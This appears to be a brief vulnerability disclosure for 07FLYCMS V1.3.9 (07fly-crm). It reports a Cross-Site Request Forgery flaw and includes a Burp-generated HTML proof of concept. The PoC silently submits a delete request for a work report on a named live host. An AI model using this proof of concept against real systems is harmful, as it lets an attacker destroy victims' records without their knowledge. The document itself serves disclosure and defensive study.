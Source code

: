 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaWorkReport/del.html?id=14

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaWorkReport/del.html?id=14" method="POST">
      <input type="hidden" name="id" value="14" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

